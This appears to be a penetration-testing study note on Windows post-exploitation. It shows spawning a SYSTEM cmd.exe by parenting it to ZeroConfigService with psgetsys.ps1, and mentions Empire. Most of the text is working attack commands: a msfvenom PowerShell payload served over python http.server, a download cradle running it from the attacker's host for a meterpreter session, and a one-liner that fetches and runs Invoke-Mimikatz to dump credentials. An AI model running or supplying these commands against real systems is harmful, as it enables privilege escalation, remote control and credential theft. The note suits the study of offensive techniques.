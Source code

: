 This should return a list of all SYSTEM-owned processes along with their PIDs and process names.
in this case we will use **ZeroConfigService**

- This will launch a cmd.exe prompt, but as a child process of the SYSTEM-owned ZeroConfigService.exe process, and as a result, our **child** process, will also be SYSTEM.

```powershell
	. .\psgetsys.ps1
	[MyProcess]::CreateProcessFromParent(3632,"cmd.exe")
```

> we can confirm this by running a tool like Process Explorer, to see that our cmd.exe process has been spawned as a child process of the ZeroConfigService process and is also SYSTEM.

> of course, in an attack scenario, we could launch a meterpreter executable payload as SYSTEM and get a SYSTEM shell from the target machine.


- Empire

	https://github.com/EmpireProject/Empire

> Another post-exploitation framework
Its main advantage is that is implements powershell functionality without requiring the existence of powershell on a target machine.



## Powershell and Metasploit


set a handler in meterpreter
make a payload in msfvenom = -f psh-reflection > payload.ps1
make a web host to send the payload to the target
```python
	python -m http.server
```

grab the file in the target machine:
```powershell
powershell iex (New-Object Net.Webclient).DownloadString('http://<kali ip>/payload.ps1')
```

> once we execute the download cradle, we will receive the meterpreter session already


in meterpreter session:

	load powershell
	help = to show the options we have
	powershell_shell

```powershell
Get-Process | Where-Object {$_.ProcessName -match "iTunes"}
```

back to meterpreter:
```powershell
powershell_execute 'iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz'
```
